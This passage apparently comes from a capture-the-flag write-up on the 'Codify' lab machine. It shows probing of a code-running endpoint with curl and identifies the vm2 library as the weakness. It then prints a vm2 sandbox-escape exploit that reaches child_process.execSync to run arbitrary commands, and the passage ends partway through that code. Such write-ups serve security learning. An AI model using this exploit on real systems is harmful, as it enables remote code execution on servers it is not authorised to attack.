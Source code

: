 ```
<pre>TypeError [ERR_INVALID_ARG_TYPE]: The first argument must be of type string or an instance of Buffer, ArrayBuffer, or Array or an Array-like Object. Received undefined<br> &nbsp; &nbsp;at new NodeError (node:internal/errors:405:5)<br> &nbsp; &nbsp;at Function.from (node:buffer:333:9)<br> &nbsp; &nbsp;at /var/www/editor/index.js:27:22<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/www/editor/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/www/editor/node_modules/express/lib/router/route.js:144:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/www/editor/node_modules/express/lib/router/route.js:114:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/www/editor/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/www/editor/node_modules/express/lib/router/index.js:284:15<br> &nbsp; &nbsp;at Function.process_params (/var/www/editor/node_modules/express/lib/router/index.js:346:12)<br> &nbsp; &nbsp;at next (/var/www/editor/node_modules/express/lib/router/index.js:280:10)</pre>
</body>
</html>
```
This is a Node.js error with a stacktrace. We can see that the `code` parameter can accept other types than a `String`.
If the `code` parameter is not Base64 encoded, we have an empty output:
```
$curl http://codify.htb:3000/run -X POST -d '{"code":"&é$()"}' -H 'Content-Type: application/json'
{"output":""}
```
Finally, if the given code does not represent JavaScript code, we have the error from the engine, I guess:
```
$curl http://codify.htb:3000/run -X POST -d '{"code":"aaaaaaaa"}' -H 'Content-Type: application/json'
{"error":"Invalid or unexpected token"}
```
## Vulnerability assessment
The most promising vulnerability seems to be the `vm2` library. Indeed, if we go in the [GitHub page](https://github.com/patriksimek/vm2) of the library, we can read:
```
TL;DR The library contains critical security issues and should not be used for production! The maintenance of the project has been discontinued. Consider migrating your code to isolated-vm.
```
## Exploitation
We can find an exploit for `vm2` to escape from the sandbox on [Exploit Database](https://www.exploit-db.com/exploits/51898):
```
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}

try {
    const handler = {
        getPrototypeOf(target) {
            (function stack() {
                new Error().stack;
                stack();
            })();
        }
    };

    const proxiedErr = new Proxy({}, handler);

    throw proxiedErr;
} catch ({ constructor: c }) {
    const childProcess = c.constructor('return process')().mainModule.require('child_process');
    childProcess.execSync('${command}');
```